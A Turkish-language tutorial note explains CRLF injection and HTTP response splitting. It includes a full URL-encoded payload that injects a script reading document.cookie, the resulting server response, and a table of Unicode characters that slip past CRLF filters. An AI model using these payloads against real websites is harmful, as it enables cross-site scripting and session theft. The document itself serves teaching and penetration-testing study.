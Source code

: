 # CRLF Nedir?
CRLF Injection, saldırganın HTTP başlıklarına CRLF karakterleri (\r\n) enjekte edebilmesi durumunda ortaya çıkar. Bu durum, HTTP Response Splitting'e yol açabilir. Bir web uygulaması, HTTP başlıklarını oluştururken kullanıcı girdisini kullanıyorsa. Saldırgan, bu girdiyi manipüle ederek ek başlıklar enjekte edebilir veya HTTP yanıtını bölebilir. Bu durum şu güvenlik risklerine yol açabilir:

- Cross-Site Scripting (XSS): İkinci yanıta kötü amaçlı script ekleme.
- Cache Poisoning: Yanlış içeriğin önbelleğe alınmasını sağlama.
- Header Manipulation: Başlıkları değiştirerek kullanıcıları veya sistemleri yanıltma.

# Cross-Site Scripting
CRLF injection ile en kolay istismar yöntemi, sayfanın gövdesini (body) yeniden yazmaktır. Bu teknik javascript kodu çalıştırmak için kullanılabilir.

Örnek istek:
```url
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

Sunucu yanıtı:
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Mon, 27 Oct 2060 14:50:18 GMT
Content-Length: 39
 
<script>alert(document.cookie)</script>
```

# Filter Bypass
RFC 7230, çoğu HTTP başlık alanı değerinin yalnızca US-ASCII karakter setinin bir alt kümesini kullanması gerektiğini belirtir.

| UTF-8 Character | Hex | Unicode | Stripped |
| --------- | --- | ------- | -------- |
| `嘊` | `%E5%98%8A` | `\u560a` | `%0A` (\n) |
| `嘍` | `%E5%98%8D` | `\u560d` | `%0D` (\r) |
| `嘾` | `%E5%98%BE` | `\u563e` | `%3E` (>)  |
| `嘼` | `%E5%98%BC` | `\u563c` | `%3C` (<)  |

# HTTP/2 ve HTTP/3 Neden Daha Güvenli
- HTTP/2 ve HTTP/3, header’ları binary frame formatında taşır.
- \r\n gibi ASCII karakter dizileriyle header sonlandırma mantığı yoktur.
- Bu yüzden klasik CRLF injection ile header yapısını bozamazsın.
- Ancak HTTP/1.1 fallback aktifse, hala risk vardır.

Referanslar:
- https://www.insecure.in/crlf-injection-attack
- https://www.invicti.com/learn/crlf-injection/?utm_source=chatgpt.com
- https://playbook.sidthoviti.com/web-app-pentesting/crlf-injection?utm_source=chatgpt.com